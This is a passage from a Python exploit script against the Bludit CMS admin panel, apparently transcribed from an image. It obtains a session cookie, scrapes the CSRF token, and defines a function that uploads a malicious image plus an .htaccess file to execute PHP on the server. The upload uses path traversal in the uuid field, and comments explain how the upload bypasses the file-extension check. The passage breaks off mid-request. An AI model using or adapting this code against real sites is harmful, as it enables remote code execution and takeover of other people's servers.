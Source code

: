 ```python
               "Content-Type":"application/x-www-form-urlencoded"
    }
    cookies = {"BLUDIT-KEY":cookie}
    response = session.post(url + "/admin/",
                            data=data,
                            headers=headers,
                            cookies=cookies,
                            allow_redirects = False
               )

    print("cookie: " + cookie)
    return cookie

def get_csrf_token(url,cookie):
    """ Grab the CSRF token from an authed session """

    session = requests.Session()
    headers = {"Origin":url,
               "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Upgrade-Insecure-Requests":"1",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer":url + "/admin/",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate"}
    cookies = {"BLUDIT-KEY":cookie}
    response = session.get(url + "/admin/dashboard",
                           headers=headers,
                           cookies=cookies
               )
    csrf_token = response.text.split('var tokenCSRF = "')[1].split('"')[0]

    print("csrf_token: " + csrf_token)
    return csrf_token

def upload_evil_image(url, cookie, csrf_token, payload, override_uuid=False):
    """ Upload files required for to execute PHP from malicious image files. Payload and .htaccess """

    session = requests.Session()
    files= {"images[]": (payload,
                         open(payload, "rb"),
                         "multipart/form-data",
                         {"Content-Type": "image/png", "filename":payload}
                        )}
    if override_uuid:
        data = {"uuid": "../../tmp/temp",
                "tokenCSRF":csrf_token}
    else:
        # On the vuln app, this line occurs first:
        # Filesystem::mv($_FILES['images']['tmp_name'][$uuid], PATH_TMP.$filename);
        # Even though there is a file extension check, it won't really stop us
        # from uploading the .htaccess file.
        data = {"tokenCSRF":csrf_token}
    headers = {"Origin":url,
               "Accept":"*/*",
               "X-Requested-With":"XMLHttpRequest",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer":url + "/admin/new-content",
```